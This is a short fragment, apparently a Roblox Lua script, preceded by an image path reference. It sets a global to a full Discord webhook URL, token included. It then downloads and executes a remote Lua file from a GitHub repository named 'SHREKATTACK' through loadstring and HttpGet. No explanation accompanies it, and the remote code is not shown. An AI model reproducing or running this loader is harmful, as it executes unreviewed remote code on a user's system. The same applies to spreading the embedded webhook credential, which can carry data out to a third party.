 _G.webhooksdiscord = "https://discord.com/api/webhooks/896290832276156446/57qrJg21MEwauIiEjRmwNlsmdix5zMrAAGyNYYRgqS1_louxE5Tp329vfTgU5DGembje"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()
